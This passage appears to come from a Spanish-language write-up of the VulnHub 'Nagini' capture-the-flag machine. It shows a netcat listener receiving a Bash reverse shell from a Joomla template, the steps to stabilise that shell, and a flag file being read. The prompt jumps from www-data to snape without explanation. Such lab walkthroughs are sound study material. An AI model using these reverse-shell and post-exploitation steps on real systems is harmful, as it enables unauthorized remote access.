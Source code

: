 * Abre una **netcat** y desde el navegador, usamos nuestra **Reverse Shell** de confianza para **Bash** (recuerda que hay que URL encodear los ampersands):

<p align="center">
<img src="/assets/images/vulnhub-writeup-nagini/Captura23.png">
</p>

```bash
nc -nlvp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.1.006] 46042
bash: cannot set terminal process group (538): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Nagini:/var/www/html/joomla/templates/protostar$ whoami
whoami
www-data
```
Listo, obtuvimos una shell hacia la máquina.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="Enumeracion">Enumeración de la Máquina</h2>

Antes que nada, obten una sesión interactiva:
```bash
www-data@Nagini:/home$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@Nagini:/home$ ^Z                
zsh: suspended  nc -nlvp 443
                                                                                                                                                                                                                 
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
www-data@Nagini:/home$ export TERM=xterm
www-data@Nagini:/home$ export SHELL=bash
www-data@Nagini:/home$ stty rows 51 columns 189
www-data@Nagini:/home$
```

Si nos vamos al directorio `/var/www/html`, encontraremos el primer horocrux:
```bash
snape@Nagini:/home/hermoine/bin$ cd /var/www/html/
snape@Nagini:/var/www/html$ ls
harry_potter_2.jpg  horcrux1.txt  index.html  index.nginx-debian.html  internalResourceFeTcher.php  joomla  note.txt
snape@Nagini:/var/www/html$ cat horcrux1.txt 
horcrux_{MzogU2x5dGhFcmlOJ3MgTG9jS0VldCBkRXN0cm9ZZUQgYlkgUm9O}
```
